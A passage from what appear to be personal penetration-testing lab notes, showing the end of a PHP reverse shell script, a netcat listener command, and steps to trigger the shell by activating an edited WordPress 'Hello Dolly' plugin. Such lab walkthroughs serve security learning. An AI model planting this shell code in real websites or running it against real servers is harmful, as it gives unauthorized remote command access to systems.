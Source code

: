 ``` PHP
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
```

Will then start a listener with <mark style="background: #D2B3FFA6;">netcat</mark>: `nc -nvlp 1234`
+ Note that the port should be the same as what was set

Will now click the *Activate* button for the *Hello Dolly* plugin 
![[Screenshot 2023-08-13 at 4.39.10 PM.png]]
+ Will likely get an error similar to the one shown in the above, but the listener will now be an interactive shell